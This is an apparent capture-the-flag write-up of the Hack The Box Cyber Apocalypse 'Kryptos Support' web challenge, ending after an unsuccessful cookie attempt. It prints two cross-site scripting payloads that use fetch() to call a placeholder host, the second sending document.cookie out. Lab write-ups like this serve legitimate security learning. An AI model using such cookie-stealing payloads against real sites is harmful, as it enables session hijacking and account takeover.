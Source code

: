 ```yaml
---
title: "Hackthebox Cyber Apocalypse"
tags:
  - CTF
  - Write-up
---
```

![](banner-cyber-apocalypse.png)
## Prologue

CTF Hackthebox Cyber Apocalypse is an international competition held every year by Hack The Box. This CTF Competition is using Jeopardy-style, which means every teams must find a flag in the given challenge. This competition lasts for six days.

## Write Up

### Kryptos Support (300 pts)

The value of this challenge is 300 points and +1000 players have solved this challenge.

![](kryptos-1.png)

We're given a website with an interface like this.

![](kryptos-2.png)

After doing an enumeration, we only found an input and button. When submitting the form, We have a unique response that could make use of this as a hint. We assume this is a generic _Client-Side Challenge_

![](kryptos-3.png)

To prove our assumption, We sent a Cross-Site Scripting payload.

```html
<script> 
fetch('ip_callback') 
</script>
```
After waiting for a few seconds, We obtained a callback from an unknown IP address with HeadlessChrome as the User-Agent. That means our assumption is correct.

![](kryptos-5.png)

```html
<script> 
fetch('ip_callback/q?=' + document.cookie) 
</script>
```

After using the cookies the page didn't get the flag nor redirect to the logged-in dashboard.
